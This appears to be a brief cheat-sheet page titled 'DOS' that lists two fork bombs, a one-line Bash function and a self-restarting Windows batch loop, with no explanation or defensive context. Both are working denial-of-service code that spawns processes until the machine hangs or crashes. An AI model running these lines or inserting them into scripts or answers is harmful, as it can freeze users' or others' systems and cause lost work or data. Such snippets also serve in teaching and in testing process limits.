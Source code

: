 # DOS

## Fork Bombs

* Bash

    ```
    :() { :|:&};:
    ```

* Bat (Windows)

    ```
    :runthis
    start %0
    goto runthis
    ```